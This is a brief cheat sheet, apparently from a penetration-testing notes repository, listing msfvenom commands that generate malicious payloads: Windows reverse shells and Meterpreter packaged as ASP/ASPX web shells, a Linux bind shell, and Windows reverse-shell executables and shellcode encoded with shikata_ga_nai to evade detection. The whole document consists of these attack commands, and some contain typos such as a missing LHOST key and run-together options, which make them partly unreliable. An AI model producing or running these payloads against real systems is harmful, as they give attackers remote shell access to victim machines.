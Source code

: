 msfvenom
========

.. code-block:: shell

	msfvenom -p windows/shell_reverse_tcp  HOST=<your_ip_address> LPORT=[Port] -f asp > shell.asp

.. code-block:: shell

	msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx

.. code-block:: shell

	msfvenom -p linux/x86/shell\_bind\_tcp LPORT=[port]-f c -b "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

.. code-block:: shell

	msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=[port]-b "\\x00\\x0a\\x0d" -f c -a x86 --platform windows -e x86/shikata\_ga\_nai

.. code-block:: shell

 	msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=[port]-b "\\x00\\x0a\\x0d" -f exe > bob.exe -a x86 --platform windows -e x86/shikata\_ga\_nai